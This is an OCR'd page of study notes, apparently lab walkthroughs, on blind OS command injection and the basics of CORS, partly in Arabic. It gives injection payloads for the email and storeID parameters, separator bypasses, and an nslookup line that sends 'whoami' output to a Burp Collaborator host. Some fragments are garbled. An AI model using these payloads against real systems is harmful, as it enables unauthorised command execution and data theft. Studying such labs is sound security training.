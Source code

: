 4-`whoami`.burbp-collebrator ⇒ `` may be doesn't restricted

5-xxx||ls ⇒ before ||  wrong

6-bypass like :
|;|
&$IFS&

 

## **simple case**

 Modify the `storeID` parameter, giving it the value `XX|whoami`.

XX IS wrong value.

## **Blind OS command injection with time delays**

1. Modify the `email` parameter, changing it to:`email=x||ping+-c+10+127.0.0.1||`

## **Blind OS command injection with output redirection**

1. odify the `email` parameter, changing it to:`email=||whoami>/var/www/images/output.txt||`
2. Now use Burp Suite to intercept and modify the request that loads an image of a product.
3. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:`filename=output.txt`

## **Blind OS command injection with out-of-band interaction**

1. Modify the `email` parameter, changing it to:`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
2. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter

## **Blind OS command injection with out-of-band data exfiltration**

1. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:`email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`

# **Cross-origin resource sharing (CORS)**

## notes

what is same-origin-police ( SOP )
هي اتعملت عشان تمنع xss , CSRF
scripts running on a web page can only access resources (e.g., APIs, data) from the same domain, protocol, and port.

CORS 
هو بروتوكول يسمح لل WEBSITES 
مشاركه المعلومات مع بعض يعتمد عل 
Access-Control-Allow-Origin
Access-Control-Allow-Cradintiales
